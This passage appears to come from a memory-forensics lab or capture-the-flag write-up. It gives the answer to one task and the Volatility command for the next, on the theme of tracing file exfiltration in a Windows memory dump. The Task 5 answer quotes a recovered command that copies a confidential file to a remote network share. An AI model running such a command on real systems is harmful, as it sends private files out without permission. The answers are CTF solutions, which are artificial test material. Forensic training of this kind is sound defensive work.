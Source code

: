 <figure><img src="../../../.gitbook/assets/Untitled 5 (26).png" alt=""><figcaption></figcaption></figure>

**Answer:**&#x20;

`type C:\Users\Public\Secret\Confidential.txt > \192.168.0.171\pulice\pass.txt`

***

## Task 6

### Question

Following the above command, now tell us if the file was exfiltrated successfully?

### Solution

Again we can get the output of the command that we found in the last task from the command history using the `consoles` plugin.

```bash
vol.py --profile=Win7SP1x64 -f recollection.bin consoles

# --profile - Profile name
# -f - Memory Dump file
# consoles - Extract command history by scanning for _CONSOLE_INFORMATION
```

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

